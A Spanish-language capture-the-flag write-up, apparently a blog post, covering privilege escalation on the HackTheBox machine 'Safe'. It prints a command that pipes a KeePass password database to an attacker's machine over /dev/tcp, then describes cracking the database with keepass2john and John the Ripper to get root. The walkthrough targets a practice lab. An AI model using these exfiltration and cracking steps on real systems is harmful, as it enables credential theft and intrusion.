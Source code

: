***************************

#Escalada de privilegios

Una vez dentro como user vemos que en el home tenemos un archivo de keepass y unas cuantas imagenes, nos las copiamos a nuestra maquina para poder enumerarlas. Como la máquina no tiene ni curl, ni wget ni python podemos intentar copiarlas mediante bussybox: 
>busybox httpd -f -p 8000
 
o directamente con cat.
>cat < MyPasswords.kdbx >/dev/tcp/tuip/puerto 

En nuestro equipo nos ponemos en escucha por netcat y metemos la salida al archivo MyPasswords.kdbx. También podemos usar scp para pasar los archivos.  
Una vez en nuestro equipo las abrimos con keepassxc, nos pide una password y una keyfile.  
Con keepass2john sacamos los hashes de Mypassword.kdbx y luego los pasamos por john the ripper, pero no tenemos suerte.  
Volvemos a pasar el keepass2john pero esta vez a las imagenes.
>keepass2john -k imagenes MyPassword.kdbx  

Con esto nos dará los hashes que luego intentaremos romper con johntheripper.

![Hashes de las imágenes]({{site.baseurl}}/assets/images/Safe/screensht_22-06-09_21_00_41.png)


Al pasar los hashes por john uno de ellos nos da la contraseña, bullshit. Con ella y la imagen ya lo tenemos todo, ya podemos obtener la contraseña de root.

![Contraseña de root]({{site.baseurl}}/assets/images/Safe/screensht_22-06-09_21_03_39.png)

Solo nos queda entrar por ssh como user y una vez dentro solo queda convertirse en root con la contraseña que hemos copiado y obtener la flag.

![Flag de root]({{site.baseurl}}/assets/images/Safe/screensht_22-06-09_21_17_20.png)


Hasta aquí la máquina Safe, una maquina clasificada como Easy por HTB pero yo la clasificaría como Medium por su Enumeración de binarios y su buffer overflow.

Hasta otra¡


















